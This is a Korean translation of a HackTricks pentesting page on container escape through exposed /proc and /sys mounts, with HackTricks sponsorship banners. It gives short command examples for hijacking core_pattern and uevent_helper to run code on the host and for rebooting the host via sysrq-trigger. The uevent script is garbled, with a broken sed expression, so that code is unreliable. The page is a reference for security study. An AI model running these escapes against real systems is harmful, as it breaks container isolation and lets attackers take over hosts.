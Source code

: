 # 민감한 마운트

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>에서 <strong>AWS 해킹을 처음부터 전문가까지 배우세요</strong>!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 PDF로 HackTricks를 다운로드하고 싶다면** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [telegram 그룹](https://t.me/peass)에 **가입**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

적절한 네임스페이스 격리 없이 `/proc` 및 `/sys`가 노출되면 공격 표면 확대 및 정보 노출을 포함한 중요한 보안 위험이 발생합니다. 이러한 디렉토리에는 민감한 파일이 포함되어 있으며, 잘못 구성되거나 무단으로 액세스되면 컨테이너 탈출, 호스트 수정 또는 추가 공격을 돕는 정보 제공이 가능합니다. 예를 들어, `-v /proc:/host/proc`를 잘못 마운트하면 경로 기반의 특성으로 인해 AppArmor 보호를 우회할 수 있어 `/host/proc`가 무방비 상태가 됩니다.

**각 잠재적인 취약점에 대한 자세한 내용은** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**에서 찾을 수 있습니다.**

## procfs 취약점

### `/proc/sys`

이 디렉토리는 일반적으로 `sysctl(2)`를 통해 커널 변수를 수정할 수 있도록 허용하며, 관련 하위 디렉토리가 여러 개 있습니다:

#### **`/proc/sys/kernel/core_pattern`**

* [core(5)](https://man7.org/linux/man-pages/man5/core.5.html)에 설명되어 있음.
* 첫 128바이트를 인수로 사용하여 코어 파일 생성 시 실행할 프로그램을 정의할 수 있습니다. 파일이 파이프 `|`로 시작하면 코드 실행이 가능합니다.
*   **테스트 및 악용 예시**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # 쓰기 액세스 테스트
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # 사용자 지정 핸들러 설정
sleep 5 && ./crash & # 핸들러 트리거
```

#### **`/proc/sys/kernel/modprobe`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 자세히 기술되어 있음.
* 커널 모듈 로더의 경로를 포함하며, 커널 모듈을 로드할 때 호출됩니다.
*   **액세스 확인 예시**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # modprobe에 대한 액세스 확인
```

#### **`/proc/sys/vm/panic_on_oom`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 언급되어 있음.
* OOM 조건이 발생할 때 커널이 패닉 또는 OOM 킬러를 호출하는 전역 플래그입니다.

#### **`/proc/sys/fs`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 따르면 파일 시스템에 대한 옵션 및 정보가 포함되어 있습니다.
* 쓰기 액세스는 호스트에 대한 다양한 서비스 거부 공격을 활성화할 수 있습니다.

#### **`/proc/sys/fs/binfmt_misc`**

* 매직 넘버에 따라 비네이티브 바이너리 형식에 대한 인터프리터를 등록할 수 있습니다.
* `/proc/sys/fs/binfmt_misc/register`가 쓰기 가능한 경우 특권 상승 또는 루트 쉘 액세스로 이어질 수 있습니다.
* 관련 악용 및 설명:
* [binfmt\_misc를 통한 Poor man's rootkit](https://github.com/toffan/binfmt\_misc)
* 깊이 있는 자습서: [비디오 링크](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### `/proc`의 기타 항목

#### **`/proc/config.gz`**

* `CONFIG_IKCONFIG_PROC`가 활성화된 경우 커널 구성을 공개할 수 있습니다.
* 실행 중인 커널의 취약점을 식별하는 데 유용합니다.

#### **`/proc/sysrq-trigger`**

* Sysrq 명령을 호출할 수 있어 즉시 시스템 재부팅이나 기타 중요한 작업을 유발할 수 있습니다.
*   **호스트 재부팅 예시**:

```bash
echo b > /proc/sysrq-trigger # 호스트 재부팅
```

#### **`/proc/kmsg`**

* 커널 링 버퍼 메시지를 노출합니다.
* 커널 악용, 주소 누출 및 민감한 시스템 정보 제공에 도움이 될 수 있습니다.

#### **`/proc/kallsyms`**

* 커널 내보낸 심볼과 그들의 주소를 나열합니다.
* 특히 KASLR을 극복하기 위해 커널 악용 개발에 필수적입니다.
* 주소 정보는 `kptr_restrict`가 `1` 또는 `2`로 설정된 경우 제한됩니다.
* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 자세한 내용이 있습니다.

#### **`/proc/[pid]/mem`**

* 커널 메모리 장치 `/dev/mem`과 상호 작용합니다.
* 역사적으로 특권 상승 공격에 취약했습니다.
* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에서 자세한 내용을 확인할 수 있습니다.

#### **`/proc/kcore`**

* ELF 코어 형식으로 시스템의 물리적 메모리를 나타냅니다.
* 읽기는 호스트 시스템 및 다른 컨테이너의 메모리 내용을 누출할 수 있습니다.
* 대용량 파일 크기는 읽기 문제나 소프트웨어 충돌로 이어질 수 있습니다.
* 2019년 [Dumping /proc/kcore](https://schlafwandler.github.io/posts/dumping-/proc/kcore/)에서 자세한 사용법을 확인할 수 있습니다.

#### **`/proc/kmem`**

* 커널 가상 메모리를 나타내는 `/dev/kmem`의 대체 인터페이스입니다.
* 읽기 및 쓰기를 허용하므로 커널 메모리를 직접 수정할 수 있습니다.

#### **`/proc/mem`**

* 물리적 메모리를 나타내는 `/dev/mem`의 대체 인터페이스입니다.
* 모든 메모리의 읽기 및 쓰기를 허용하며 가상 주소를 물리적 주소로 변환해야 합니다.

#### **`/proc/sched_debug`**

* PID 네임스페이스 보호를 우회하여 프로세스 스케줄링 정보를 반환합니다.
* 프로세스 이름, ID 및 cgroup 식별자를 노출합니다.

#### **`/proc/[pid]/mountinfo`**

* 프로세스의 마운트 네임스페이스에 대한 마운트 지점 정보를 제공합니다.
* 컨테이너 `rootfs` 또는 이미지의 위치를 노출합니다.

### `/sys` 취약점

#### **`/sys/kernel/uevent_helper`**

* 커널 장치 `uevents`를 처리하는 데 사용됩니다.
* `/sys/kernel/uevent_helper`에 쓰기하면 `uevent` 트리거 시 임의의 스크립트를 실행할 수 있습니다.
*   **악용 예시**: %%%bash

### 페이로드 생성

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

### 컨테이너용 OverlayFS 마운트에서 호스트 경로 찾기

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

### 악의적인 헬퍼로 uevent\_helper 설정

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

### uevent 트리거

echo change > /sys/class/mem/null/uevent

### 출력 읽기

cat /output %%%
#### **`/sys/class/thermal`**

* 온도 설정을 제어하여 DoS 공격이나 물리적 손상을 유발할 수 있습니다.

#### **`/sys/kernel/vmcoreinfo`**

* 커널 주소를 노출하여 KASLR을 compromise할 수 있습니다.

#### **`/sys/kernel/security`**

* `securityfs` 인터페이스를 포함하며, AppArmor와 같은 Linux Security Modules의 구성을 허용합니다.
* 액세스 권한을 통해 컨테이너가 MAC 시스템을 비활성화할 수 있습니다.

#### **`/sys/firmware/efi/vars` and `/sys/firmware/efi/efivars`**

* NVRAM의 EFI 변수와 상호 작용하기 위한 인터페이스를 노출합니다.
* 잘못된 구성 또는 악용으로 인해 브릭된 노트북이나 부팅할 수 없는 호스트 머신으로 이어질 수 있습니다.

#### **`/sys/kernel/debug`**

* `debugfs`는 커널에 대한 "규칙 없는" 디버깅 인터페이스를 제공합니다.
* 제한이 없는 성격으로 인한 보안 문제의 역사가 있습니다.

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로부터 영웅이 될 때까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드하려면** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
